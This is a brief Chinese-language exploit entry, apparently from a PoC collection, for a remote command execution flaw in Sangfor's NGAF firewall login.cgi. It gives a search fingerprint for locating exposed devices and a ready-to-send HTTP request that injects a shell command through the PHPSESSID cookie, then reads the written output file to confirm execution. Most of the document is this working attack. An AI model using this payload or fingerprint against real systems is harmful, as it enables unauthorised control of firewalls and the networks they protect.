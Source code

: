 # 深信服 NGAF下一代防火墙 login.cgi 远程命令执行漏洞

# 深信服 NGAF下一代防火墙 login.cgi 远程命令执行漏洞

## 漏洞描述

深信服下一代防火墙是一款以应用安全需求出发而设计的下一代应用防火墙。深信服下一代防火墙在 login.cgi 路径下，PHPSESSID 处存在命令执行漏洞。攻击者可通过该漏洞在服务器端任意执行代码，写入后门，获取服务器权限，进而控制整个web服务器。

## 漏洞影响

深信服 NGAF下一代防火墙

## 网络测绘

```
"Redirect.php?url=LogInOut.php"
```

## 漏洞复现

登陆页面

![image-20231115101204343](images/image-20231115101204343.png)

poc

```
POST /cgi-bin/login.cgi HTTP/1.1 
Host: 
Cache-Control: max-age=0 
Content-Type: Application/X-www-Form
y-forwarded-for: 127.0.0.1
Cookie: PHPSESSID=`$(id > /fwlib/sys/virus/webui/svpn_html/3.txt)`;

{"opr":"login", "data":{"user": "watchTowr" , "pwd": "watchTowr" , "vericode": "NSLB" , "privacy_enable": "0"}}
```

![image-20231115101222783](images/image-20231115101222783.png)

访问

```
/svpn_html/3.txt
```


